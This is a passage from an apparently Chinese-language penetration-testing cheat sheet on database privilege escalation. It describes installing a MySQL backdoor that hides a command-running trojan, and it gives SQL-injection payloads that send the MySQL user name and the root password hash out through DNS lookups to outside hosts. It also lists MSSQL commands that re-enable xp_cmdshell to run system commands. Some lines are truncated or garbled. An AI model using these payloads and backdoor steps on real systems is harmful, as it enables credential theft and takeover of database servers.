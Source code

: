 ```basic

（3）Linx MySQL BackDoor 提权 

Mysql BackDoor 是一款针对 PHP+Mysql 服务器开发的后门,该后门安装后为 Mysql增加一个可以执行系统命令的"state"函数,并且随Mysql进程启动一个基 于 Dll 的嗅探型后门,这个后门在 Windows 下拥有与 Mysql 一样的系统权限,从 而巧妙的实现了无端口,无进程,无服务的穿墙木马. 用法：将 Mysql.php 传到 PHP 服务器上,点击"自动安装 Mysql BackDoor"， 然后直接执行命令即可 

（4）MIX.DLL 提权 
1.在独立 IP 的 sqlmap 下运 
2.禁用本地缓存 net stop dns 
3.http://localhost/inject.php?user=123' and if((SELECT LOAD_FILE(CONCAT('\\',(SELECT hex(user())),'.abc.com\foobar'))),1,1)%23 http://localhost/inject.php?user=123' and if((SELECT LOADFILE(CONCAT('\\',(SELECT concat(user,'',mid(password,2,41)) from user where user='root' limit 1),'.md5crack.cn\foobar'))),1,1)%23 

https://sanwen8.cn/p/1acWt8J.html 

4.DNS 突破 
参考文章：http://www.freebuf.com/vuls/85021.html
```



### mssql提权  

#### 1. 恢复xp_cmdshell

```basic
Exec sp_configure show advanced options,1;
RECONFIGURE;
EXEC sp_configure xp_cmdshell,1;RECONFIGURE; 
EXEC sp_configure show advanced options, 1;
RECONFIGURE;
EXEC sp_configure xp_cmdshell, 1;
RECONFIGURE;-- 
```

#### 2. 如果 xp_cmdshell 还是不行就再执行命令 

```basic
dbcc addextendedproc("xp_cmdshell","xplog70.dll");-- 
或;
sp_addextendedproc xp_cmdshell,@dllname=xplog70.dll
来恢复 cmdshell 
```



#### 3. 无法在库 xpweb70.dll 中找到函数 xp_cmdshell。


```basic
原因: 127(找不到指 定的程序。) 
恢复方法：查询分离器连接后, 
第一步执行:exec sp_dropextendedproc xp_cmdshell 
第二步执行:exec sp_addextendedproc xp_cmdshell,xpweb70.dll 
然后按 F5 键命令执行完毕 
```
